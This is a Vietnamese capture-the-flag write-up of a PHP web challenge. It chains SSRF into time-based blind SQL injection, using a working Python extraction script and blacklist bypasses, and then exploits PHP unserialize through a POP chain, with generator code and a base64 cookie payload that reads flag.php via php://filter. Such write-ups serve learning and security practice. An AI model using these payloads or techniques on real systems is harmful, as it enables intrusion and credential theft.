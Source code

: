 # KMA CTF Birthday - Web exploitation

## Description
Có một hacker vừa gửi mail cho công ty chúng tôi và nói rằng trang web của chúng tôi có một lỗ hổng cực kỳ nghiêm trọng. Hỡi các người anh em thiện lành có thể giúp chúng tôi tìm ra lỗ hổng đó và gửi report cho công ty chúng tôi để bên kỹ thuật sửa chữa, tất nhiên bạn cũng sẽ có thưởng!! XD

*Source code*: Phía trên.

**self note**: Bài này mình giải khi giải đã kết thúc từ lâu nên mình chỉ dựng lại để tập.

## Review Source-Code 1

Cấu trúc web-server:
![tree](tree.png)

**Tóm tắt**:

`index.php`: Nhận `url` parameter và curl nó và chỉ trả về status là true | false.

`admin/index.php`: Admin mới access được.

`api/checkUser.php`: Dính lỗi sql injection khi nối `id` parameter trực tiếp tuy nhiên chỉ ở localhost mới truy cập được trang này. Khá dễ đoán khi mình cần dùng tính năng `curl` trên để curl đến endpoint này, ở đây sql query không trả về bất cứ kết quả gì. Kết hợp với curl đây có lẽ là dạng `sql injection time based`.
```php
if ($_SERVER['REMOTE_ADDR'] === '127.0.0.1') {

  
  if (!isset($_GET['id'])) {
    echo json_encode(array('result' => 'Missing parameter!!'));
  } else {
    $id = $_GET['id'];
    $id = preg_replace('/join|group|having|or|select|from|where|\ /', '',$id);
    $query = 'SELECT * FROM users WHERE id='.$id;
    $result = $conn->query($query);

    if ($result->num_rows > 0) {
      //echo $result;  hmmmm?? Xin lỗi vì lí do bảo mật :))))
    }
  }
} else {
  echo json_encode(array('result' => $_SERVER['REMOTE_ADDR'].'Only localhost can access that feature!!!'));
}
```

# EXPLOIT STEP 1
Ta cần đọc được password của admin bằng time based sql injection

Xây tool bằng python, bypass các `keyword` ở `api/checkUser.php` bằng cách viết hoa nó lên, `dấu cách` có thể thế bằng cách dùng comment `/**/`.

**Python tool**:
```python
#/usr/bin/env python3
import requests
import time

url = 'http://localhost:10666/'
s = requests.Session()

flag = ''
for i in range(1,30):
  for c in range(32,127):
    print(flag + chr(c))
    payload = f"http://localhost/api/checkUser.php?id=1/**/AND/**/IF(SUBSTRING((SELECT/**/paSSwORd/**/FROM/**/users/**/WHERE/**/id=1),{i},1)='{chr(c)}',SLEEP(3),1)"
    try:
      r = s.post(url + 'index.php', data={"url": payload}, timeout=3)
    except:
      flag += chr(c)
      print(f'[FOUND] - {flag}')
      break
```

**account**: admin:admin_password_for_testing

*Thêm một vài lưu ý*:
  
  Khi query để ra username thì không sao nhưng đến `password` lại chẳng ra gì, thử nhiều mới nhớ ra đoạn `or` bị blacklist và replace mất nên cũng cần viết hoa nốt để bypass. MySQL(và phần lớn DBMS khác) cấu hình default là case-insensitive.

  Mình định dùng `ASCII()` MySQL function cho quen và nhằm tránh ký tự đặc biệt nếu gặp đỡ escape nhưng không được, không dùng cũng không sao, có lẽ mình đã nhầm ở đâu đó nhưng lười thử lại, đã có password rồi.


*Logged-in as admin*:

`admin/index.php`:
![admin area](admin_area.png)

## Review Source-Code 2

**Tóm Tắt**: 

`admin/index.php`: Ok một bài `serialize`, nhận data variable ở cookie mà mình có thể kiếm soát và `unserialize` nó.
```php
<?php 
require '../config.php';
require '../classes/chain.php';
 
if (isset($_SESSION['user']) && $_SESSION['user'] === 'admin')  {
  if (!isset($_COOKIE['data']))
    setcookie('data', base64_encode(serialize(new Url("http://www.ahihi.com"))));
  else {
    $cookie = base64_decode($_COOKIE['data']);
    if (preg_match('/\x00/', $cookie))
      die('Hacker detected :))))');
    else
      unserialize($cookie);
  }
}
else {
  die('Login as admin!!!');
}
?>
```
Chú ý sau khi `base64_decode` nó có check lại liệu `null byte(\x00)` có ở trong chuỗi, có thì trả về `Hacker Detected`.

`../classes/chain.php`: Ok dạng PHP unserialize POP Chains, phân tích dài dòng ở dưới

**Reference**: https://www.php.net/manual/en/language.oop5.magic.php

Tóm tắt  các `magic methods` trước khi review và generate `payload` nào:

**__wakeup()**: Tự động được gọi(Tdddg) sau khi object này được `unserialize()`, đây sẽ là startpoint của chain.

**__construct**:  Tdddg khi tạo 1 object từ class chứa nó đó.

**__invoke**: Tdddg khi gọi 1 object như là 1 hàm

**__toString()**: Tdddg khi "đối xử" với 1 object như string(ex: echo $obj; hay so sánh với string)

**__get()**: Tdddg khi gọi 1 object

Chain tất cả class lại với nhau(trừ class Url) và tạo ra payload nào. 

*Lưu ý*: Dùng lại tất cả các class trên để viết `serialized object` nhưng còn nhớ `Hacker Detected` phía trên chứ, theo PHP thì để biểu thị 1 `property` là private thì khi serialize nó sẽ add thêm `\x00` phía trước tên của property đó nên mình cần sửa `private $source;` của class `Source` thành `public $source;`.
```php
<?php
 
class Source {
  public $source; // trước đây là private $source;

  public function __construct($s) {
    $this->source = $s;
  }
  public function __invoke() {
    return $this->source->method;
  }
}


class File {
  public $file;

  public function __toString() {
    if (!preg_match('/^(http|https|php|data|zip|input|phar|expect):\/\//', $this->file)) {
      include($this->file);
    }
    return "Ahihhii";
  }
}

class Func2 {
  public $param;

  public function __wakeup() {
    $function = $this->param;
    return $function();
  }
}


class Func1 {
  public $param1;
  public $param2;

  public function __get($key) {
    $key = $this->param2;
    return $this->param1->$key();
  }
}

class Url {
  public $url;

  public function __construct($url) {
    $this->url = $url;
  }

  public function checkUrl() {
    if (preg_match('/[http|https]:\/\//', $this->url))
      return true;
    else
      return false;
  } 
}

# generate payload:
# Để viết chain mình(với mình) cần xác định `startpoint` và `endpoint` chính là class `Func2` và `File`.

// Lưu ý bypass php blacklist bằng Php
$fly = new File();
$fly->file = 'Php://filter/convert.base64-encode/resource=../flag.php'; // include flag.php được convert sang base64

$fun1 = new Func1();
$fun1->param1 = $fly;
$fun1->param2 = '__toString'; // gọi __toString() từ File

$src = new Source($fun1); // gọi __get() từ Func1

$fun2 = new Func2();
$fun2->param = $src; // gọi __invoke() từ Source

$data = serialize($fun2);

echo base64_encode($data) . "\n\n";
#unserialize($data); // gọi __wakeup() từ Func2

#Tzo1OiJGdW5jMiI6MTp7czo1OiJwYXJhbSI7Tzo2OiJTb3VyY2UiOjE6e3M6Njoic291cmNlIjtPOjU6IkZ1bmMxIjoyOntzOjY6InBhcmFtMSI7Tzo0OiJGaWxlIjoxOntzOjQ6ImZpbGUiO3M6NTU6IlBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9Li4vZmxhZy5waHAiO31zOjY6InBhcmFtMiI7czoxMDoiX190b1N0cmluZyI7fX19
```

Đổi cookie `data` variable thành chuỗi base64 trên ta được:
![base64 flag](base64_flag.png)

**flag**: `KCSC{fake_flag_for_testing}`
